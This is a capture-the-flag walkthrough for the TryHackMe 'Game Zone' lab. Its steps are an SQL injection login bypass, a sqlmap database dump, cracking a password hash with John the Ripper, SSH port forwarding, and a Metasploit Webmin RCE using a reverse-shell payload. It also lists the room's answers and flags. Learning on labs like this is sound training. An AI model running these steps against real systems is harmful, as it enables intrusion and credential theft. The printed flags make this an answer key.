

# Try Hack Me - Game Zone

## Information
### Room URL
https://tryhackme.com/r/room/gamezone

### Target Machine IP
10.10.43.71

### Attacker Machine IP (curl 10.10.10.10/whoami)
10.4.73.48

## Task 1 - Deploy the vulnerable machine
>Deploy the machine and access its web server.
>
>What is the name of the large cartoon avatar holding a sniper on the forum?

nmap -p- --min-rate 5000 -sV 10.10.43.71

In a browser, attempt to connect to: http://10.10.43.71:80

Reverse image search the image of sniper dude

Answer: Agent 47

## Task 2 - Obtain access via SQLi
>When you've logged in, what page do you get redirected to?

On the websites home page, the login form suggest a possible SQL injection vulnerability.

Entering ' or 1=1 -- - in the username and submitting allows login.

Answer: portal.php

## Task 3 - Using SQLMap
>In the users table, what is the hashed password?

Using the game search in portal.php, intercept the request using burpsuite

Save the intercepted request to input to SQLMap

Run: sqlmap -r request.txt --dbms=mysql --dump

In the output we can see the hashed password stored in the DB for "agent47"

Answer: ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14

>What was the username associated with the hashed password?

Answer: agent47

>What was the other table name?

Answer: post

## Task 4 - Cracking a password with JohnTheRipper
>What is the de-hashed password?

Save the hashed password to a file "hash.txt"

If the hash format isnt easily recognisable, test it online at https://www.tunnelsup.com/hash-analyzer/

Use JohnTheRipper to crack the hash:

john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA256

Answer: videogamer124

>What is the user flag?

Recall the nmap scan discovered an open SSH port (22). Use:

ssh agent47@10.10.43.71

to initiate the ssh connection. When prompted, enter "videogamer124" as the password.

Find the flag at the current directory

Answer: 649ac17b1480ac13ef1e4fa579dac95c

## Task 5 - Exposing services with reverse SSH tunnels
>How many TCP sockets are running?

Investigate the sockets running on the host using: ss -tulnp

Answer: 5

>What is the name of the exposed CMS?

Of note from that socket scan, port 10000 was blocked by the firewall which can now be exposed:

ssh -L 10000:localhost:10000 agent47@10.10.43.71

Visit "http://localhost:10000"

Answer: Webmin

>What is the CMS version?

Using the credentials already known (agent47:videogamer124) we can login to the CMS and view the version

Answer: 1.580

## Task 6 - Privilege Escalation with Metasploit
>What is the root flag?

On exploit-db we can find a RCE vulnerability:

https://www.exploit-db.com/exploits/21851

Search the vulnerability in metasploit

Configure the exploit:

set PAYLOAD payload/cmd/unix/reverse
set RHOST localhost
set RPORT 10000
set USERNAME agent47
set PASSWORD videogamer124
set SSL false

Then run it

Now change to ~ directory and look for flag

Answer: a4b945830144bdd71908d12d902adeee

Room Complete :)